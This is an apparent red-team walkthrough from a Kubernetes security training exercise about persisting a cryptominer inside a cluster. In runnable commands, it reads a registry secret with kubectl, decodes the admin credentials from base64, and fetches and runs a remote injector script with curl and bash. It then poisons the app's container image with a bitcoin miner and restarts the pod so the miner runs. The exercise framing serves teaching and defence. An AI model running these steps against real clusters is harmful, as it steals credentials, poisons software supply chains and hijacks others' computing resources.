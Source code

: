 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Since we have kubectl running, let's see if there's any credentials accessible.

```
# in case you need to re-download kubectl
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl

# Let's see if there's any secrets left out for us to grab
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq ".auths.\"${REGISTRY_HOSTNAME}\".username" -r
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d -
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://lastcoolnameleft.com/mini/run-bitcoin-injector.sh) - deploy a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
* [inject-image.sh](https://lastcoolnameleft.com/mini/inject-image.sh) - Uses Buildah to pulls the current app image, injects the bitcoin miner into the image, re-publishes the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://lastcoolnameleft.com/mini/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```

Everything has been installed.  Let's kill our process and let the new image come up
```
kubectl delete pod $HOSTNAME
TODO: kubectl rollout restart 
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!